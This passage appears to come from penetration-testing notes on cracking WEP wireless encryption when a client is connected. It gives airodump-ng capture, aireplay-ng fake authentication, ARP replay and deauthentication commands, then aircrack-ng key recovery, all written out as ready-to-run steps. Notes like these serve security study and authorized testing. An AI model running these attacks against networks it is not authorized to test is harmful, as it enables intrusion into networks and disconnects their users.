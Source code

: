 # with connected client

#### Capture + output as wep-01.pcap

{% code overflow="wrap" %}
```
# -c channel -w output filename = recon-0#
sudo airodump-ng -c # --essid AP_NAME --bssid XX:XX:XX:XX:XX:XX -w wep --output-format pcap wlan0mon
```
{% endcode %}

#### Attack

Conduct a fake authentication attack against the AP

```

aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
```

Launch the ARP request replay attack:

```
aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>
```

Deauthenticate the connected client to force new IV generation by the AP:

```
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```

Once a significant number of IVs have been captured, run Aircrack-ng against the Airodump capture:

```
aircrack-ng <capture>
```
